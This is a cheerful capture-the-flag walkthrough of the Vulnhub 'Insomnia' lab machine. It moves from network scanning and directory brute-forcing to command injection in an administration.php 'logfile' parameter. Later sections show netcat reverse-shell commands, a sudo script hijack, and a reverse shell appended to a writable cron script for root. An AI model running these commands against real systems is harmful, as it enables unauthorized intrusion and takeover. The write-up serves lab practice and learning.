

# Insomnia Walkthrough: Let's Hack a Dream!

Hey there! Ready to dive into the world of hacking? Today, we’re cracking into **Insomnia** from Vulnhub. I’m your guide, Whitej, and I promise to make this a fun ride. Let's go!


## Step 1: Plugging In (a.k.a. Setting Up Connections)
Before we start poking around, let’s make sure our attacker machine (Kali) and the victim machine (Insomnia) can chat. Think of this as setting up a coffee date for hacking.

### Options:
1. **NatNetwork**: 
   - Create a NatNetwork and slap it on both machines. Boom, instant connection.

2. **Bridged Network**:
   - Connect both machines to the same adapter. A little extra work, but hey, variety is the spice of life.

Now, let’s make sure our machines are besties by setting up a solid connection.

### First, Find Your IP:
Run this classic command:
```sh
ifconfig
```
### Next: Find All Devices  
Time for an ARP party:🎈 ++78```sh
sudo arp-scan -l
```
OR use netdiscover if you’re feeling fancy:

sh
```sh
sudo netdiscover -i eth0 -r <IP address range>.0/24
```   

Sweet, we’ve got the doors to knock on. Next stop: digging deeper usng the nmap🔍

## 🔍 Nmap: Scanning for Open Doors 🚪


We'll use the following command to scan for open ports and identify the services running on those ports:
```sh
nmap -sV -sC -A -p- <Victim's IP address>
```


Now we see the http on port 8080 🚪.Let’s browse and see what’s cooking.

👀 We see a chat feature, but it’s a bit of a dead end for now. Time to bring in DIRB and brute-force some directories.

```sh
dirb -h <IP>:8080 -X .php
```
 

 or gobuster accoding to your preferences
 
```sh
gobuster dir  -u  <IP>:8080 -w <wordlists>-X .php
```

  

Boom! We found the administration.php directory and a few more, but... yep, dead ends everywhere. 🏃💨


it says  "Your activity has been logged!"  i guess it's time to turn up the heat and fuzz some parameters with Arjun.

```sh
arjun -u http://<>:8080/administration.php
```


We find a juicy parameter: logfile. Could this be an LFI vulnerability? Hmm, no dice. But wait... we can try command injection!
```
http://<IP>:8080/administration.php?logfile=cd /home;ls
```


And... what do we have here? The result shows up directly in the chat! Now we’re cooking🔥.Lets  check the chat.txt


We spot that chat.txt is executing commands. Let’s dive deeper and... execute some commands through it!
## Gaining Shell
we are going to make use of some reverse Shell Magic 🎩. Run this sneaky command and don’t forget to listen first!

```sh
echo "chat.txt; nc <IP> 4444 -e /bin/bash" > script.sh
```
Set up your listener with:
```sh
nc -lvnp 4444
```


Boom! We are in🧑‍🤝‍🧑. Quickly Spawn a terminal shell using python  and we have our first flag 😁😁


Let’s check sudo privileges for the user:
```sh
sudo -l
```


## Priviledge Escalation 😎
From the   privildegs we saw previously, we saw that The start.sh script runs as user julia.Here’s a cheeky fix—just sneak in a /bin/bash in the script. Julia won’t mind! 😉
```sh
echo "/bin/bash" > start.sh
```
And just like that, we’re julia. Thanks, Julia! I know you won’t mind. 😎


## Gaining Root 🚀
At first glance, there’s not much interesting. But wait... if we check /etc/crontab, we spot a file running on the system. Looks like an opportunity to exploit and to our de light a cron job is running a script called check.sh. Let’s spy like a pro with pspy64 🕵️‍♀️.


First, get pspy64 on the target (discreetly, like a ninja in /tmp) from the attacker machine  using wget
```sh
wget http://<attackerIP>:8000/pspy64
```
```sh
chmod +x /tmp/pspy64
./pspy64
```


👀 Aha! The check.sh script runs every minute. Even better—it’s editable.The payload drop 💣is to add this reverse shell to the script:
```sh
echo "nc <your_ip> 1234 -e /bin/bash" >> /path/to/check.sh
```


Set up your listener again:

```sh
nc -lvnp 1234
```
⏳ Wait a minute (literally), and...


WE ARE ROOT! 🏆


Congratulations! 🎉 You’ve successfully hacked your way to the top. Thanks for reading! Hope this walkthrough helps you go from "huh?" to "ha!" with White J Great job, keep learning, and you'll go even further! 😉


